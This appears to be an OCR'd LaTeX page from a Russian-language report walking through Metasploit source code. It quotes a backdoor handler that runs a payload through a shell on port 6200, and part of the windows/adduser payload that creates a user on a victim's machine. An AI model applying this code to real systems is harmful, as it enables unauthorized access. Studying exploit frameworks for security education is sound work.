 \documentclass[11pt, a4paper]{article}		%
\begin{document}
\begin{itemize}
Payload запускается в методе handle\_backdoor:

\begin{verbatim}
 def handle_backdoor(s)

    s.put("id\n")

    r = s.get_once(-1, 5).to_s
    if r !~ /uid=/
      print_error("The service on port 6200 does not appear to be a shell")
      disconnect(s)
      return
    end

    print_good("UID: #{r.strip}")

    s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
    handler(s)
  end
\end{verbatim}


\item Рассмотрим payload - windows/adduser.

Данный payload создает пользователя в системе windows, с заранее заданными настройками.

Путь: \verb'/usr/share/metasploit-framework/modules/payload/singles/windows/adduser.rb'.

Сначала прописаны опции: 

\begin{verbatim}
register_options(
      [
        OptString.new('USER', [ true, "The username to create",     "metasploit" ]),
        OptString.new('PASS', [ true, "The password for this user", "Metasploit$1" ]),
        OptString.new('CUSTOM', [ false, "Custom group name to be used instead of default", '' ]),
        OptBool.new('WMIC',	 [ true, "Use WMIC on the target to resolve administrators group", false ]),
      ], self.class)

    register_advanced_options(
      [
        OptBool.new("COMPLEXITY", [ true, "Check password for complexity rules", true ]),
      ], self.class)
\end{verbatim}

Далее в зависимости от введных опций генерируется код который должен быть запущен на компьтере жертве в командной строке:

\begin{verbatim}
def command_string
    user = datastore['USER'] || 'metasploit'
    pass = datastore['PASS'] || ''
    cust = datastore['CUSTOM'] || ''
    wmic = datastore['WMIC']
    complexity= datastore['COMPLEXITY']

    if(pass.length > 14)
      raise ArgumentError, "Password for the adduser payload must be 14 characters or less"
    end

    if complexity and pass !~ /\A^.*((?=.{8,})(?=.*[a-z])(?=.*[A-Z])(?=.*[\d\W])).*$/
      raise ArgumentError, "Password: #{pass} doesn't meet complexity requirements and may cause issues"
    end


\end{verbatim}
\end{itemize}
\end{document}
